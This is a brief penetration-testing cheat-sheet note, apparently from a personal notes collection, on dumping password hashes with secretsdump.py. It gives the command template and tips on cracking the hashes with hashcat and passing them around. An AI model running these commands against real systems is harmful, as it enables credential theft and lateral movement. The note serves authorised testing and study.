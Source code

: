 Dump Hashes with secretsdump.py

## Commands
* secretsdump.py host/user:password@IP
* this will dump more hashes for you to try to crack with hashcat 
	* blank password output from hashcat means that the account might be disabled so we can't pass them around 